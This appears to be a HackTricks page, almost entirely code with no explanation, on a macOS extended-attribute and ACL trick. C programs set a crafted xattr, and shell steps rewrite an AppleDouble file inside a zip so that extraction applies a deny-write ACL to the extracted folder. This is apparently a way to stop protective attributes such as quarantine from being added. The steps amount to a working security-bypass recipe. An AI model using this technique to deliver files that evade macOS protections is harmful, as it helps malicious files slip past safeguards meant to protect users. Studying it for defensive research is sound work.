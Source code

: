 # macOS xattr-acls extra stuff

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
./get_acls test
ACL for test:
!#acl 1
group:ABCDEFAB-CDEF-ABCD-EFAB-CDEF0000000C:everyone:12:deny:write,writeattr,writeextattr,writesecurity,chown

ACL in hex: \x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a
```

<details>

<summary>Code of get_acls</summary>

```c
// gcc -o get_acls get_acls
#include <stdio.h>
#include <stdlib.h>
#include <sys/acl.h>

int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
        return 1;
    }

    const char *filepath = argv[1];
    acl_t acl = acl_get_file(filepath, ACL_TYPE_EXTENDED);
    if (acl == NULL) {
        perror("acl_get_file");
        return 1;
    }

    char *acl_text = acl_to_text(acl, NULL);
    if (acl_text == NULL) {
        perror("acl_to_text");
        acl_free(acl);
        return 1;
    }

    printf("ACL for %s:\n%s\n", filepath, acl_text);

    // Convert acl_text to hexadecimal and print it
    printf("ACL in hex: ");
    for (char *c = acl_text; *c != '\0'; c++) {
        printf("\\x%02x", (unsigned char)*c);
    }
    printf("\n");

    acl_free(acl);
    acl_free(acl_text);
    return 0;
}
```

</details>

```bash
# Lets add the xattr com.apple.xxx.xxxx with the acls
mkdir start
mkdir start/protected
./set_xattr start/protected
echo something > start/protected/something
```

<details>

<summary>Code of set_xattr</summary>

```c
// gcc -o set_xattr set_xattr.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/xattr.h>
#include <sys/acl.h>


void print_xattrs(const char *filepath) {
    ssize_t buflen = listxattr(filepath, NULL, 0, XATTR_NOFOLLOW);
    if (buflen < 0) {
        perror("listxattr");
        return;
    }

    char *buf = malloc(buflen);
    if (buf == NULL) {
        perror("malloc");
        return;
    }

    buflen = listxattr(filepath, buf, buflen, XATTR_NOFOLLOW);
    if (buflen < 0) {
        perror("listxattr");
        free(buf);
        return;
    }

    printf("All current extended attributes for %s:\n", filepath);
    for (char *name = buf; name < buf + buflen; name += strlen(name) + 1) {
        printf("%s: ", name);
        ssize_t valuelen = getxattr(filepath, name, NULL, 0, 0, XATTR_NOFOLLOW);
        if (valuelen < 0) {
            perror("getxattr");
            continue;
        }

        char *value = malloc(valuelen + 1);
        if (value == NULL) {
            perror("malloc");
            continue;
        }

        valuelen = getxattr(filepath, name, value, valuelen, 0, XATTR_NOFOLLOW);
        if (valuelen < 0) {
            perror("getxattr");
            free(value);
            continue;
        }

        value[valuelen] = '\0';  // Null-terminate the value
        printf("%s\n", value);
        free(value);
    }

    free(buf);
}


int main(int argc, char *argv[]) {
    if (argc != 2) {
        fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
        return 1;
    }

    const char *hex = "\x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a";
    const char *filepath = argv[1];

    int result = setxattr(filepath, "com.apple.xxx.xxxx", hex, strlen(hex), 0, 0);
    if (result == 0) {
        printf("Extended attribute set successfully.\n\n");
    } else {
        perror("setxattr");
        return 1;
    }

    print_xattrs(filepath);

    return 0;
}
```

</details>

{% code overflow="wrap" %}
```bash
# Create appledoublefile with the xattr entitlement
ditto -c -k start protected.zip
rm -rf start
# extract the files
unzip protected.zip
# Replace the name of the xattr here (if you put it before ditto would have destroyed it)
python3 -c "with open('._protected', 'rb+') as f: content = f.read().replace(b'com.apple.xxx.xxxx', b'com.apple.acl.text'); f.seek(0); f.write(content); f.truncate()"
# zip everything back together
rm -rf protected.zip
zip -r protected.zip protected ._protected
rm -rf protected
rm ._*
```
{% endcode %}

```bash
# Check if it worked
ditto -x -k --rsrc protected.zip .
xattr -l protected
```

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
